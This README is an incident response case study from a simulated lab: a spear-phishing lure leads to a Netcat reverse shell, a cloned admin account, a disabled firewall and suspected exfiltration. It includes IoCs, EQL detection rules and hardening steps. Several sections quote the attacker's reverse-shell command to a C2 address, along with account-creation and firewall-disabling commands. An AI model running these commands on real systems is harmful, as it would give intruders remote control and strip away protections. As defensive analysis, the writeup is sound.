# IR Case Study: From a Fake PDF to Full Host Compromise in 5 Hours

[](https://www.elastic.co/security)
[](https://dfir-iris.org/)
[](https://attack.mitre.org/)
[](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
[](https://opensource.org/licenses/MIT)

A full incident response investigation of a **spear phishing campaign** that escalated into a reverse shell, privilege escalation, defense evasion and data exfiltration on a Windows VM in Azure — reconstructed by triaging **18 raw SIEM alerts into an 8-stage attack chain**, mapped to MITRE ATT&CK, and closed out with a NIST SP 800-61 response cycle and six proposed EQL detection rules.

| | |
|---|---|
| **Analyst / Author** | Jhonny Rene Valdivieso Pajon |
| **Response Team** | CyberShield |
| **Affected Client** | Terra |
| **DFIR-IRIS Case** | `Case #2` — Credential Theft / Spear Phishing Campaign |
| **Compromised Asset** | `technique-test` (Windows VM · Azure · `eastus2` · `10.0.1.4`) |
| **Victim User** | `rogelio` |
| **Incident Window** | 2024-07-09 21:44 → 2024-07-10 02:50 (**~5h 06m**) |
| **Response Framework** | NIST SP 800-61 (PICERL) |
| **Stack** | Elastic SIEM (EQL + ML Engine), DFIR-IRIS, VirusTotal, PowerShell |

> **Scope & Data Provenance**
> Academic incident response exercise performed against a **simulated, controlled environment** provided by the training institution. Telemetry originates from a **pre-configured Elastic SIEM instance** seeded with **18 alerts** representing one simulated intrusion. Case management ran on a **DFIR-IRIS instance deployed by the team via Docker**, with IoC enrichment through VirusTotal.
> The analyst's contribution is the **triage, correlation and forensic reconstruction**: turning 18 raw alerts into a coherent attack chain with ATT&CK mapping, extracted IoCs and a response plan.
> The lab environment is no longer available; evidence is preserved as screenshots and as the reports under `docs/`. **No malicious binaries are included in this repository.**

---

## Executive Summary

A Terra employee (`rogelio`) received a **spear phishing** email from the typosquatted domain `outluok.co` with the subject *"¡¡Urgente!! Tu cuenta puede estar en peligro"* ("Urgent!! Your account may be at risk"). Interaction with the lure triggered a complete intrusion chain in **just over five hours**:

1. An initial binary written into the Recycle Bin by `outlook.exe`.
2. Download and execution of `Historial_Pagos_Visa.pdf.exe` using **File Name Masquerading** (double extension).
3. An interactive **reverse shell** established with Netcat to C2 `89.44.9.243:8080`.
4. Creation of a **cloned local account** named `rogelio`, then promoted to `Administrators`.
5. **Complete shutdown of the Windows Firewall** via PowerShell.
6. **Data exfiltration** flagged by the Elastic SIEM **Machine Learning** engine.
7. **Advanced persistence** through Registry `Run` key modification.

**Response outcome:** the C2 channel was blocked at the perimeter, the host isolated, artifacts eradicated and the cloned account removed. A hardening plan (SPF/DKIM/DMARC, AppLocker over `%TEMP%`/`AppData`, PowerShell restrictions) was delivered alongside **six new detection rules** closing the visibility gaps the adversary exploited.

**The core finding:** no single alert told the story. The clone-account creation scored **Risk Score 21 (Low)** — and that same event turned out to be the hinge of the entire compromise.

### Starting Point: 18 Raw Alerts


*Figure 1 — Initial alert queue: 18 open alerts (12 Critical · 3 Medium · 3 Low), 100% concentrated on host `technique-test`.*

| Initial queue breakdown | |
|---|---|
| Total alerts | **18** |
| Critical / Medium / Low | 12 / 3 / 3 |
| Affected host | `technique-test` (100%) |
| Firing rules | Malware Detection Alert (7), User Account Creation via PowerShell (3), Malicious Behavior: Evasion via File (2), Malicious Behavior: Suspicious String (2), Windows Firewall Disabled, User Account Added to Privileged Group, Potential Data Exfiltration |

The analytical work reduced those **18 alerts** — containing duplicates, adversary retries and child events of a single action — into a **causal chain of 8 events**, each carrying its ATT&CK technique, its artifact and its parent-child relationship to the previous one. Deduplication here is not cosmetic: it is what turns an alert queue into an intrusion narrative you can defend in front of a client.

---

## Attack Flow & Architecture

### Full Kill Chain


```mermaid
flowchart TD
    A["📧 Spear Phishing<br/>Spoofed sender: outluok.co<br/>T1566.001"] --> B["📥 outlook.exe writes binary<br/>C:\$Recycle.Bin\...\$RD60126.exe<br/>21:44:02 · Risk 99"]
    B --> C["🌐 msedge.exe downloads lure<br/>Historial_Pagos_Visa.pdf.exe<br/>T1036.003 · 21:47:15 · Risk 99"]
    C --> D["🖱️ User execution<br/>T1204.002"]
    D --> E["🔌 Netcat drop + Reverse Shell<br/>nc.exe 89.44.9.243 -e powershell.exe 8080<br/>T1059.001 / T1095 · 21:51:59 · Risk 99"]

    E --> F["👤 Cloned local account 'rogelio'<br/>New-LocalUser · T1136.001<br/>23:02:06 · Risk 21 ⚠️ LOW"]
    F --> G["⬆️ Added to 'Administrators'<br/>T1078.003 · 23:13:21 · Risk 47"]
    G --> H["🔥 Firewall disabled<br/>Set-NetFirewallProfile -Enabled False -All<br/>T1562.001 · 23:27:47 · Risk 47"]

    H --> I["📤 Exfiltration flagged by ML<br/>10.0.1.4 → 168.63.129.16<br/>T1041 · 07-10 02:44:50 · Risk 47"]
    H --> J["🔑 Registry Run Keys<br/>T1547.001 · 07-10 02:49:53 · Risk 99"]

    I --> K["🚨 Escalated to CyberShield<br/>DFIR-IRIS Case #2"]
    J --> K
    K --> L["🧯 Containment · Eradication · Recovery<br/>NIST SP 800-61"]

    classDef access fill:#7f1d1d,stroke:#ef4444,color:#fff
    classDef exec fill:#78350f,stroke:#f59e0b,color:#fff
    classDef persist fill:#1e3a8a,stroke:#3b82f6,color:#fff
    classDef exfil fill:#581c87,stroke:#a855f7,color:#fff
    classDef resp fill:#14532d,stroke:#22c55e,color:#fff

    class A,B,C,D access
    class E exec
    class F,G,H,J persist
    class I exfil
    class K,L resp
```

### Sequence View — Actors and Processes


```mermaid
sequenceDiagram
    autonumber
    participant ATK as 🎭 Adversary (89.44.9.243)
    participant USR as 👤 rogelio
    participant HOST as 💻 technique-test
    participant SIEM as 📊 Elastic SIEM
    participant IRIS as 🗂️ DFIR-IRIS

    ATK->>USR: Email "Urgent!!" from outluok.co
    USR->>HOST: Opens attachment via outlook.exe
    HOST->>SIEM: Alert #1 — Malware in $Recycle.Bin (Risk 99)
    USR->>HOST: Downloads via msedge.exe (.pdf.exe)
    HOST->>SIEM: Alert #2 — Masquerading (Risk 99)
    USR->>HOST: Double-click, in-memory execution
    HOST->>ATK: nc.exe -e powershell.exe :8080 (Reverse Shell)
    HOST->>SIEM: Alert #3 — Outbound C2 (Risk 99)

    ATK->>HOST: New-LocalUser 'rogelio'
    HOST->>SIEM: Alert #4 — EQL (Risk 21 · LOW)
    ATK->>HOST: Add-LocalGroupMember Administrators
    HOST->>SIEM: Alert #5 — EQL (Risk 47)
    ATK->>HOST: Set-NetFirewallProfile -Enabled False -All
    HOST->>SIEM: Alert #6 — EQL (Risk 47)

    ATK->>HOST: Data collection and staging
    HOST->>ATK: Large outbound transfer
    SIEM->>SIEM: ML job ded_high_sent_bytes_destination_ip (threshold 75)
    SIEM->>IRIS: Alert #7 — Exfiltration (Risk 47)
    ATK->>HOST: Writes to Registry Run Keys
    HOST->>SIEM: Alert #8 — Persistence (Risk 99)
    SIEM->>IRIS: 8 events correlated → Case #2
    IRIS->>HOST: 🧯 Isolation + eradication
```

---

## MITRE ATT&CK Mapping

| # | Tactic | Technique (ID) | Timestamp | Observed Event | Artifact / Command |
|:-:|---|---|---|---|---|
| 1 | Initial Access | Spearphishing Attachment — **T1566.001** | `2024-07-09 21:44:02` | `outlook.exe` writes binary to Recycle Bin | `C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\$RD60126.exe` |
| 2 | Defense Evasion | Masquerading: Double File Extension — **T1036.003** | `2024-07-09 21:47:15` | Download via `msedge.exe` with double extension | `C:\Users\rogelio\Downloads\Historial_Pagos_Visa.pdf.exe` |
| 3 | Execution | User Execution: Malicious File — **T1204.002** | `2024-07-09 21:47:15` | User runs the binary; loaded into memory | `process.name = Historial_Pagos_Visa.pdf.exe` |
| 4 | Execution | Command & Scripting: PowerShell — **T1059.001** | `2024-07-09 21:51:59` | Netcat spawns `powershell.exe` as remote shell | `nc.exe 89.44.9.243 -e powershell.exe 8080` |
| 5 | Command & Control | Non-Application Layer Protocol — **T1095** | `2024-07-09 21:51:59` | Outbound TCP reverse shell | `89.44.9.243:8080` |
| 6 | Persistence | Create Account: Local Account — **T1136.001** | `2024-07-09 23:02:06` | Clone account created with victim's name | `New-LocalUser 'rogelio' -Password (...)` |
| 7 | Privilege Escalation | Valid Accounts: Local Accounts — **T1078.003** | `2024-07-09 23:13:21` | Clone account added to `Administrators` | `group.name = Administrators` |
| 8 | Defense Evasion | Impair Defenses: Disable Firewall — **T1562.001** | `2024-07-09 23:27:47` | Firewall disabled across all three profiles | `Set-NetFirewallProfile -Enabled False -All` |
| 9 | Exfiltration | Exfiltration Over C2 Channel — **T1041** | `2024-07-10 02:44:50` | Outbound volume anomaly flagged by ML | `ded_high_sent_bytes_destination_ip` · threshold `75` |
| 10 | Persistence | Boot/Logon Autostart: Registry Run Keys — **T1547.001** | `2024-07-10 02:49:53` | Suspicious string written to `Run` key | `Suspicious String Value Written to Registry Run Key` · Risk 99 |

---

## Forensic Analysis by Phase

### Event 1 — Initial Access: Malware Written to the Recycle Bin via Outlook
**`Jul 9, 2024 @ 21:44:02.000` · Risk Score `99` · Critical · rule type `query`**


*Figure 2 — Event 1: `outlook.exe` as the process responsible for writing `$RD60126.exe` into `C:\$Recycle.Bin`. Risk Score 99.*

`outlook.exe`, a legitimate signed binary, generated the write of an executable into a hidden system path. Using `C:\$Recycle.Bin` as a staging area is a classic evasion pattern: it is a system folder, hidden by default, frequently excluded from shallow scans and almost never inspected by the user.

```json
{
  "@timestamp": "2024-07-09T21:44:02.000Z",
  "host.name": "technique-test",
  "user.name": "rogelio",
  "process.name": "outlook.exe",
  "process.executable": "C:\\Program Files\\Microsoft Office\\root\\Office16\\outlook.exe",
  "file.name": "$RD60126.exe",
  "file.directory": "C:\\$Recycle.Bin\\S-1-5-21-3250139449-4025979577-2541746667-1001",
  "file.hash.sha256": "5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84281230df0728",
  "kibana.alert.rule.name": "Malware Detection Alert",
  "kibana.alert.risk_score": 99
}
```

**Email artifact analyzed:** `¡¡Urgente!! Tu cuenta puede estar en peligro.eml` — spoofed sender on the typosquatted domain **`outluok.co`** (character transposition on `outlook`, plus an alternate TLD). The SID `S-1-5-21-...-1001` confirms the write occurred under the context of the machine's first non-administrative user.

---

### Event 2 — Defense Evasion + Execution: Double Extension via Edge
**`Jul 9, 2024 @ 21:47:15.572` · Risk Score `99` · Critical**


*Figure 3 — Event 2: download of `Historial_Pagos_Visa.pdf.exe` via `msedge.exe`. The `file.hash.sha256` matches Event 1.*

Three minutes later, `msedge.exe` dropped the payload into the user's Downloads folder. The binary relies on **File Name Masquerading (T1036.003)**: with *"Hide extensions for known file types"* enabled by default in Windows, the user sees `Historial_Pagos_Visa.pdf` and trusts the icon. The filename is no accident — it invokes a plausible, urgent financial context.

```powershell
# On-disk artifact
C:\Users\rogelio\Downloads\Historial_Pagos_Visa.pdf.exe

# process.name observed after user interaction (T1204.002)
Historial_Pagos_Visa.pdf.exe
```

> **Key forensic pivot:** the `file.hash.sha256` of this binary is **identical** to Event 1 (`5f7e5e76ca…`). This confirms `$RD60126.exe` and `Historial_Pagos_Visa.pdf.exe` are **the same artifact**: the `$RD` file in the Recycle Bin is the residue of the original attachment, and the browser download was the effective delivery path. One hash ties both vectors to the same campaign.

---

### Event 3 — Execution / C2: Netcat Reverse Shell
**`Jul 9, 2024 @ 21:51:59.136` · Risk Score `99` · Critical**


*Figure 4 — Event 3: `nc.exe` dropped into `%TEMP%\3\` with `Historial_Pagos_Visa.pdf.exe` as parent process.*

The payload acted as a dropper: it extracted `nc.exe` into the user profile's temp directory and invoked it against the adversary's infrastructure.

```bash
C:\Users\rogelio\AppData\Local\Temp\3\nc.exe 89.44.9.243 -e powershell.exe 8080
```

Command breakdown:

| Component | Function |
|---|---|
| `89.44.9.243` | Adversary C2 server IP |
| `-e powershell.exe` | Redirects PowerShell's `stdin`/`stdout`/`stderr` to the socket |
| `8080` | Destination port — alternate HTTP, commonly allowed outbound |

The `-e` flag (a *"gaping security hole"*, per Netcat's own documentation) turns a network utility into a **bidirectional interactive channel**. Port 8080 and execution from `%TEMP%` are deliberate evasion choices: outbound traffic blending with web browsing, launched from a path writable by unprivileged users.

**Process chain:** `Historial_Pagos_Visa.pdf.exe` ➡️ `nc.exe`

---

### Event 4 — Persistence: Cloned Local Account Creation
**`Jul 9, 2024 @ 23:02:06.965` · Risk Score `21` · Low · rule type `eql`**


*Figure 5 — Event 4: full `process.args` of the `New-LocalUser` call. Note the Risk Score of 21 (Low) and the `eql` rule type.*

Seventy minutes of silence (`21:51` → `23:02`) separate the C2 channel from the next action — an interval consistent with **hands-on-keyboard operation**: interactive reconnaissance by the adversary over the shell.

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Command `
  New-LocalUser 'rogelio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force)
```

Three tactical decisions by the adversary:

1. **No brute force.** With an active shell, creating a new identity is quieter and more reliable than attacking existing credentials.
2. **Naming mimicry.** The chosen name, `rogelio`, matches the host's legitimate user. In a shallow account audit, the anomalous entry hides among expected identities.
3. **Abuse of `-AsPlainText -Force`.** Windows requires a `SecureString` for `New-LocalUser`; these modifiers force conversion from cleartext — the only way to set a password non-interactively from a remote console, and for that exact reason a **high-fidelity signal** of automation or remote control.

> **Critical detection-engineering finding:** this alert scored **21 (Low)**. It is the hinge event of the entire incident and would have been triaged as noise in a severity-sorted queue. See rule ① under *Detection Rules & Hardening*.

---

### Event 5 — Privilege Escalation: Promotion to the Administrators Group
**`Jul 9, 2024 @ 23:13:21.000` · Risk Score `47` · Medium · rule type `eql`**


*Figure 6 — Event 5: `group.name = Administrators` on host `technique-test` in `azure/eastus2`.*

Eleven minutes later, the clone account was added to the local high-privilege group.

```json
{
  "@timestamp": "2024-07-09T23:13:21.000Z",
  "kibana.alert.rule.name": "User Account Added to Privileged Group",
  "kibana.alert.rule.type": "eql",
  "group.name": "Administrators",
  "user.name": "rogelio",
  "host.name": "technique-test",
  "cloud.provider": "azure",
  "cloud.region": "eastus2",
  "kibana.alert.risk_score": 47
}
```

With administrative privileges consolidated, the adversary gains the ability to alter local security policy and audit logs, run tooling requiring kernel access or memory injection, and stage lateral movement toward other assets in the Azure environment. Detection came from an **EQL** rule continuously watching IAM changes on the host.

---

### Event 6 — Defense Evasion: Complete Windows Firewall Shutdown
**`Jul 9, 2024 @ 23:27:47.074` · Risk Score `47` · Medium · rule type `eql`**


*Figure 7 — Event 6: `Set-NetFirewallProfile -Enabled False -All` captured in `process.args`.*

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command `
  Set-NetFirewallProfile -Enabled False -All
```

The `-All` modifier disables the **Domain, Private and Public** profiles simultaneously. The impact is twofold, and the second half is routinely underestimated:

- **Loss of control:** local filtering disappears, enabling any secondary backdoor, internal scan or alternate channel to operate unrestricted.
- **Loss of telemetry:** firewall block logs stop being generated. The adversary does not just open the door — **they switch off the camera watching it.**

This action is characteristic of a **preparation phase**: it systematically precedes redundant persistence deployment or the start of lateral movement.

---

### Event 7 — Exfiltration: Volume Anomaly Detected by Machine Learning
**`Jul 10, 2024 @ 02:44:50.563` · Risk Score `47` · Medium · rule type `machine_learning`**


*Figure 8 — Event 7: `machine_learning` rule type, job `ded_high_sent_bytes_destination_ip` with `anomaly_threshold` 75.*

```json
{
  "kibana.alert.rule.name": "Potential Data Exfiltration Activity to an Unusual IP Address",
  "kibana.alert.rule.type": "machine_learning",
  "kibana.alert.rule.parameters.machine_learning_job_id": "ded_high_sent_bytes_destination_ip",
  "kibana.alert.rule.parameters.anomaly_threshold": 75,
  "source.ip": "10.0.1.4",
  "destination.ip": "168.63.129.16",
  "host.name": "technique-test"
}
```

This alert matches **no signature**. The `ded_high_sent_bytes_destination_ip` job builds a baseline of outbound volume per destination IP and fires when the anomaly score exceeds 75. Purely behavioral detection: the adversary executed nothing recognizably "malicious" — they simply moved far more bytes than normal toward an unusual destination. No signature-based rule would have caught this.

> **Analyst note — alternative hypothesis (documented for rigor):** the destination IP `168.63.129.16` is a **Microsoft Azure platform IP** (WireServer / host node, used for DHCP, DNS, load-balancer probes and guest agent communication). In a production investigation this would require **validating the finding before concluding exfiltration**: comparing `network.bytes` against the agent's own baseline, identifying the emitting process on the flow, and ruling out legitimate platform traffic. Here the finding is retained as **probable exfiltration** based on its temporal fit within the chain — it lands after the firewall shutdown and between two persistence attempts — but the need for corroboration is documented explicitly. **An IoC without context validation is a false-positive source, not intelligence.**

---

### Event 8 — Persistence: Registry Run Key Modification
**`Jul 10, 2024 @ 02:49:53.336` · Risk Score `99` · Critical · rule type `query`**
*(the SIEM recorded a first attempt at `02:41:30.509` and a second at `02:49:53.336` — active operator persistence)*


*Figure 9 — Event 8: `rule.description` of the `Run`/`RunOnce` detection. Risk Score 99.*

```
Rule fired    : Suspicious String Value Written to Registry Run Key
Description   : Identifies when suspicious values are written to Run and RunOnce
                registry keys via signed binaries.
Parent process: C:\Users\rogelio\AppData\Local\Temp\3\nc.exe 89.44.9.243 -e powershell.exe 8080
Child process : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```

The **parent-child correlation is the definitive forensic proof** of interactive remote control: `nc.exe` is still the originating process **five hours after** initial compromise, forcing PowerShell to write to the registry. This is not an automated script that ran and exited; it is a human operator with hands on the keyboard.

By persisting in the `Run` keys, the adversary guarantees re-execution across reboots, network drops or forced logoffs — hedging against losing the active shell. Combined with the administrative clone account from Event 4, the attacker held **three independent ways back in**.

---

### Case Management in DFIR-IRIS

All events were consolidated into a **unified timeline** inside DFIR-IRIS (Case #2), with IoCs and assets linked to each entry. This is the view backing the report delivered to the client.


*Figure 10 — Initial access, masquerading and C2 channel establishment, with IoCs and tags attached to each event.*


*Figure 11 — Clone-account persistence, privilege escalation and firewall shutdown.*


*Figure 12 — Registry persistence and exfiltration detected by Machine Learning.*

> **Methodological note on timestamps:** the IRIS timeline reflects the analyst's manual entry times, which differ from the SIEM `@timestamp` on some events (e.g. Netcat: `21:47:27` in IRIS vs `21:51:59` in Elastic). **The forensic source of truth is always the SIEM telemetry**; IRIS entries are the case-management narrative. In a production investigation this divergence is documented explicitly so the chain of custody is not called into question.

---

## Indicators of Compromise (IoCs)

> IPs defanged for safe transport. Machine-readable version in [`iocs/iocs.csv`](iocs/iocs.csv), formatted for **MISP / OpenCTI** ingestion.

| Type | Value | Context | ATT&CK |
|---|---|---|---|
| `sha256` | `5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84281230df0728` | Primary payload (`$RD60126.exe` = `Historial_Pagos_Visa.pdf.exe`) | T1566.001 / T1036.003 |
| `sha256` | `b3b207dfab2f429cc352ba125be32a0cae69fe4bf8563ab7d0128bba8c57a71c` | Netcat (`nc.exe`) — C2 tooling | T1059.001 / T1095 |
| `filename` | `Historial_Pagos_Visa.pdf.exe` | Double-extension lure | T1036.003 |
| `filename` | `$RD60126.exe` | Recycle Bin artifact | T1566.001 |
| `filename` | `nc.exe` | Netcat binary in `%TEMP%` | T1095 |
| `filepath` | `C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\` | Initial staging | T1566.001 |
| `filepath` | `C:\Users\rogelio\Downloads\` | Download location | T1204.002 |
| `filepath` | `C:\Users\rogelio\AppData\Local\Temp\3\` | Netcat execution directory | T1059.001 |
| `ip-dst` | `89[.]44[.]9[.]243` | Command & Control server | T1095 |
| `port` | `8080/tcp` | Reverse shell port | T1095 |
| `ip-dst` | `168[.]63[.]129[.]16` | Volume anomaly destination — *Azure platform IP, requires validation (see Event 7)* | T1041 |
| `ip-src` | `10[.]0[.]1[.]4` | Compromised host internal IP | — |
| `domain` | `outluok[.]co` | Typosquatted sender domain | T1566.001 |
| `email-subject` | `¡¡Urgente!! Tu cuenta puede estar en peligro` | Phishing lure subject | T1566.001 |
| `account` | `rogelio` (cloned local account) | Identity-based persistence | T1136.001 |
| `text` | `password2$` | Static credential on the clone account | T1136.001 |
| `command` | `nc.exe 89.44.9.243 -e powershell.exe 8080` | Reverse shell establishment | T1059.001 |
| `command` | `New-LocalUser 'rogelio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force)` | Clone account creation | T1136.001 |
| `command` | `Set-NetFirewallProfile -Enabled False -All` | Defense evasion | T1562.001 |
| `hostname` | `technique-test` | Compromised asset (Azure `eastus2`) | — |

---

## Incident Response (NIST SP 800-61 · PICERL)

### Containment

| Action | Detail | Rationale |
|---|---|---|
| **Perimeter block** | Deny rule for `89.44.9.243` on the perimeter firewall | Severs the C2 channel and halts in-progress exfiltration |
| **Host isolation** | `technique-test` disconnected from the corporate network | Prevents lateral movement and preserves system state |
| **Evidence preservation** | State capture taken before sanitization | Isolation precedes deletion: evidence first, cleanup second |

### Eradication

```powershell
# 1. Remove malicious artifacts
Remove-Item "C:\Users\rogelio\Downloads\Historial_Pagos_Visa.pdf.exe" -Force
Remove-Item "C:\Users\rogelio\AppData\Local\Temp\3\nc.exe" -Force
Remove-Item "C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\$RD60126.exe" -Force

# 2. Remove the clone account and its privilege
Remove-LocalGroupMember -Group "Administrators" -Member "rogelio" -ErrorAction SilentlyContinue
Remove-LocalUser -Name "rogelio"   # adversary-created clone account

# 3. Clean registry persistence
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "<malicious_value>"

# 4. Re-enable the firewall — via GPO, not locally
Set-NetFirewallProfile -Profile Domain,Private,Public -Enabled True
```

> Firewall re-enablement was applied **through GPO rather than locally**: if the host is still compromised, a local change can be reverted by the adversary. Domain policy reasserts itself on every refresh.

### Recovery

- Deep antimalware scan and integrity validation of critical services.
- Mandatory credential rotation for the legitimate `rogelio` account (assumed compromised through the adversary's interactive session).
- Full audit of local accounts, privileged groups, scheduled tasks and services on the host.
- Controlled network reconnection with enhanced monitoring during an observation period.

### Lessons Learned

| Gap Identified | Corrective Control |
|---|---|
| Spoofed email (`outluok.co`) reached the inbox | SPF / DKIM / DMARC at `reject` + lookalike domain blocking |
| Binary execution from `%TEMP%` and `AppData` | AppLocker / WDAC path rules |
| Local admin creation alerted as `Low` (21) | Sequence correlation rule (rule ① below) |
| Standard user could disable the firewall | PowerShell restrictions + firewall managed exclusively by GPO |
| Netcat executable ran unrestricted | Network tooling blocked by hash and by name |

---

## Detection Rules & Hardening

Full rule files in [`detections/`](detections/); complete hardening baseline in [`hardening/applocker-gpo-baseline.md`](hardening/applocker-gpo-baseline.md).

### ① Critical correlation — account creation followed by privilege escalation
*Turns two low-severity alerts (21 and 47) into a single critical one. This is the rule the incident proves necessary.*

```eql
sequence by host.name with maxspan=1h
  [ process where event.type == "start"
      and process.name : "powershell.exe"
      and process.args : "New-LocalUser" ]
  [ iam where event.action : ("added-member-to-group", "user-member-enumerated")
      and group.name : ("Administrators", "Administradores") ]
```

### ② Netcat reverse shell — execution with process redirection

```eql
process where event.type == "start"
  and process.name : ("nc.exe", "ncat.exe", "netcat.exe", "nc64.exe")
  and process.args : ("-e", "-c", "--exec")
```

### ③ Double-extension execution from user paths

```eql
process where event.type == "start"
  and process.executable : (
        "C:\\Users\\*\\Downloads\\*",
        "C:\\Users\\*\\AppData\\Local\\Temp\\*",
        "C:\\$Recycle.Bin\\*")
  and process.name regex~ """.*\.(pdf|doc|docx|xls|xlsx|jpg|png|txt|zip)\.(exe|scr|bat|cmd|js)"""
```

### ④ Firewall disabled via PowerShell or netsh

```eql
process where event.type == "start"
  and process.name : ("powershell.exe", "pwsh.exe", "netsh.exe")
  and process.args : ("Set-NetFirewallProfile", "advfirewall")
  and process.args : ("False", "off", "disable")
```

### ⑤ Run key written by an untrusted process

```eql
registry where event.type == "change"
  and registry.path : (
        "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\*",
        "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce\\*",
        "HKEY_USERS\\*\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\*")
  and not process.executable : (
        "C:\\Windows\\System32\\*",
        "C:\\Program Files\\*",
        "C:\\Program Files (x86)\\*")
```

### ⑥ Executable written to the Recycle Bin

```eql
file where event.type : ("creation", "change")
  and file.path : "C:\\$Recycle.Bin\\*"
  and file.extension : ("exe", "dll", "scr", "ps1", "bat")
```

### GPO / AppLocker Baseline

| Control | Implementation |
|---|---|
| **Block execution from user paths** | AppLocker `Deny` rules over `%OSDRIVE%\Users\*\AppData\Local\Temp\*`, `%OSDRIVE%\Users\*\Downloads\*` and `%OSDRIVE%\$Recycle.Bin\*` for `Everyone` |
| **User-immutable firewall** | `Computer Configuration → Policies → Windows Settings → Security Settings → Windows Defender Firewall`; profile enforced by GPO and reasserted on every refresh |
| **Restricted PowerShell** | Constrained Language Mode for standard users + **Script Block Logging** (Event ID 4104) and Module Logging enabled |
| **Offensive tooling blocked** | AppLocker rules by **hash** (`b3b207df…`) and by name (`nc.exe`, `ncat.exe`, `psexec.exe`) |
| **Extension hygiene** | Disable *"Hide extensions for known file types"* via GPO — directly neutralizes T1036.003 |
| **Email authentication** | SPF `-all`, DKIM and **DMARC at `p=reject`**; active blocking of lookalike domains |
| **Awareness** | Periodic phishing simulations focused on artificial urgency and double extensions |

---

## Repository Structure

```
.
├── README.md                    # This document — full forensic analysis
├── docs/
│   ├── informe-respuesta-incidentes-caso-terra.pdf   # Client-facing IR report (ES)
│   └── bitacora-investigacion-caso-terra.pdf         # Investigation logbook (ES)
├── assets/screenshots/          # Visual evidence (Elastic SIEM + DFIR-IRIS)
├── detections/                  # 6 proposed EQL rules
├── iocs/
│   └── iocs.csv                 # IoCs for MISP / OpenCTI ingestion
└── hardening/
    └── applocker-gpo-baseline.md
```

---

## Key Technical Takeaways

- **Correlation beats severity.** Account creation (21) and privilege escalation (47) are noise in isolation. In sequence, on the same host within the same hour, they are a confirmed compromise — solvable with a six-line EQL rule.
- **Behavioral detection covers what signatures cannot.** The exfiltration triggered no static rule. An ML job that knew the host's outbound traffic baseline caught it — no signature, no prior IoC, just deviation from normal.
- **The process tree is the evidence.** Seeing `nc.exe` as the parent of `powershell.exe` writing to the registry, five hours after initial access, is not an automated script. It is a human operator — and that parent-child relationship was the decisive proof.
- **Hash pivoting collapses vectors.** One matching SHA256 proved the Recycle Bin artifact and the browser download were the same binary, tying two apparent entry points into a single campaign.
- **Alert deduplication is analytical work.** Turning 18 raw alerts into 8 causally linked events is what separates an alert queue from an intrusion narrative a client can act on.

## Known Limitations

- The lab environment is no longer available, so findings cannot be re-derived from raw telemetry — evidence is limited to the screenshots and reports preserved here.
- The six EQL rules are **proposals derived from the analysis**. They have not been deployed against production telemetry, so their false-positive rates are unmeasured. Rule ③ in particular (double extension by regex) would need tuning against a real software inventory before enforcement.
- The exfiltration finding (Event 7) rests on an ML anomaly whose destination is Azure platform infrastructure. Without process-level flow attribution, "probable exfiltration" is the strongest defensible conclusion — not a confirmed one.
- No memory or disk forensics were performed: no memory capture, no disk image, no reverse engineering of the payload. The analysis is telemetry-based only, so the malware's internal capabilities remain uncharacterized.
- No evidence of lateral movement was found, but absence of evidence here reflects single-host visibility rather than a cleared network.
- IRIS timestamps were entered manually and diverge from SIEM timestamps on several events (documented above).

## Future Work

- Deploy the six rules in a lab SIEM with benign background traffic to measure false-positive rates before proposing them for production.
- Extend the correlation model from binary rules toward cumulative risk scoring per host, so sequences of low-severity events accumulate into actionable alerts.
- Add process-level flow attribution to distinguish genuine exfiltration from cloud platform traffic on volume anomalies.
- Build a detection-as-code pipeline (rules in version control, validated by automated tests), mirroring the verification approach used in my [Suricata IDS rule tuning lab](https://github.com/JhonnyValdivieso/suricata-ids-rule-tuning).

## License & Legal Disclaimer

### License

This project is licensed under the MIT License — see the [LICENSE](LICENSE) file for details. You are free to use, modify and distribute this material for educational and defensive security purposes.

### Legal & Educational Disclaimer

> **Notice:** This case study documents a simulated incident in a controlled training environment. IoCs and detection rules are published for defensive purposes (detection engineering / CTI) only. No malicious binaries or samples are included in this repository. IoCs should be independently validated before use in production blocklists.

## Author

- **Jhonny Rene Valdivieso Pajon** — [@JhonnyValdivieso](https://github.com/JhonnyValdivieso)

Investigation, triage, forensic correlation, ATT&CK mapping, IoC extraction, response plan and detection rule design.
